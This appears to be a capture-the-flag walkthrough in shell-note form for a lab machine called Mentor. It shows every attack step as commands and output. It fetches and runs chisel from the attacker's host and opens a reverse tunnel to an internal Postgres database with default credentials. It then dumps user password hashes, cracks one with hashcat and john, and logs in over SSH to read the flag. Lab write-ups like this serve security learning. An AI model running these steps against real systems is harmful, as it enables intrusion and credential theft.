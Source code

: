 ```shell
# interesting finds
./app/db.py
./app/main.py
./app/requirements.txt
<<SNIP
# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")
SNIP

# upload chisel to the container and start a session
# attacker's machine
python3 -m http.server 8100 -b 10.10.14.85 -d ../../tools
chmod 774 ../../tools/chisel
sudo ../../tools/chisel server --port 9009 --reverse

# on victim machine
wget http://10.10.14.85:8100/chisel
chmod 774 ./chisel
./chisel client -v 10.10.14.85:9009 R:5435:172.22.0.1:5432

# open another terminal on attacker's machine
psql -h 127.0.0.1 -p 5435 -U postgres -d mentorquotes_db   # on prompt submit the password: postgres
\d                           # list tables
select * from users;         # explore the users table
<<SNIP
 id |          email          |  username   |             password             
----+-------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb  | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb    | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
  4 | hunter@mentorquotes.htb | hunter      | e5eaa3a953d200a15ed8a9610049cb7a
SNIP

# save the hashes to file mentor.hash
#--nano mentor.hash--#
james:7ccdcd8c05b59add9c198d492b36a503
service_acc:53f22d0dfa10dce7e29cd31f4f953fd8
#--mentor.hash--#

## cracking the hashes 
# using online tools: https://hashes.com/en/tools/hash_identifier 
53f22d0dfa10dce7e29cd31f4f953fd8 - 123meunomeeivani - Possible algorithms: MD5

# with hashcat
hashcat -m 0 --username mentor.hash /usr/share/wordlists/rockyou.txt -O
hashcat -m 0 --username mentor.hash --show
#--snip--#
service_acc:53f22d0dfa10dce7e29cd31f4f953fd8:123meunomeeivani

# with john the ripper
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt mentor.hash
john --format=Raw-MD5 mentor.hash --show
#--snip--#
service_acc:123meunomeeivani

# ssh into the box
ssh svc@mentorquotes.htb    # on prompt submit the password: 123meunomeeivani
ls -lah
cat user.txt                # captured the user flag
```
